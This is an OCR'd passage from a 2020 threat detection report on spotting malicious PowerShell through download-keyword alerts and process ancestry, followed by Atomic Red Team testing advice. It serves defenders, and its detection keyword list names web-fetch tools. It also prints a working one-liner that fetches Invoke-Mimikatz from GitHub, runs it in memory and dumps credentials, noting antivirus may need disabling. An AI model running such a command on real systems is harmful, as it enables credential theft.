 good applications and approved IT activity. Constant tuning of your detection criteria improves the fidelity of alerts, which 

saves analysis time and reduces alert fatigue in your Security Operations Center (SOC).

It may be helpful to monitor all scheduled tasks that were created using PowerShell across your environment. If you are 

able to filter certain command lines, then it’s worthwhile to look out for any containing URLs. The following alert ideas will 

reliably find malicious PowerShell, but they might also generate a lot of noise:

• 

• 

Strings such as http or parsing command lines for invoke\-webrequest, iwr, downloadString, cURL, and wget, to 

name a handful of options 

Commands leveraging .NET for modules such as System.Net.WebRequest 

From an EDR perspective, tracking process ancestry is another good PowerShell detection strategy. Malicious PowerShell 

often stems from an unusual parent process, such as Microsoft Office applications such as Word or Excel, as is common in 

macro\-laden phishing attacks.

30

 
 
 
2020 Threat Detection Report

Testing

Start testing your defenses against PowerShell using Atomic Red Team—an open source testing framework of small, highly 

portable detection tests mapped to MITRE ATT\&CK. 

Getting started 

View Atomic tests for T1086: PowerShell. In most environments, these should be sufficient to generate a useful signal 

for defenders.

Run this test on a Windows system using PowerShell:

powershell.exe “IEX (New\-Object Net.WebClient).

DownloadString(‘https://raw.githubusercontent.com/PowerShellMafia/

PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/

Invoke\-Mimikatz.ps1’); Invoke\-Mimikatz \-DumpCreds”

Caveat: you may have to disable antivirus to run this test. 
